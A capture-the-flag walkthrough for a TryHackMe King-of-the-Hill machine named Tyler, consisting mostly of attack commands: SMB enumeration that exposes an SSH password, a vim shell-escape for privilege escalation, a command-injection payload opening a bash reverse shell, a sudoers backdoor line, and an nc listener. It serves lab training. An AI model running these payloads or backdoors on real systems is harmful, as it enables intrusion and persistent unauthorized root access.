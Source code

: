 # KOTH TYLER

----------------
## IP: `10.10.243.130`<br />

----------------
### Open Ports -<br/>

```
22
80
139
445
3306
5000
8080
```

![image](images/nmap.png)

##### Initial access -<br/> 

![image](images/smb.png)

```
smbclient //tyler.thm/public
```

> we can get narrator's ssh password from here<br/>

username: narrator<br/>
password: X8JEETQmf3hkS65f<br/>

##### Privilege escalation of user `narrator`

```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### subdirectory - `betatest`

`tdurden;bash -i >& /dev/tcp/<ip>/<port> 0>&1`

![image](images/betatest.png)

> Same Priv-Esc as of narrator using vim <br/>

##### To get full root access -

```
echo "tdurden ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Then just do, `sudo bash` voilà you're root<br/>

##### Upload a `python` rev-shell on PORT `5000`

`http://tyler.thm:5000`<br/>

```
nc -lnvp <port>
```

![image](images/upload-port.png)
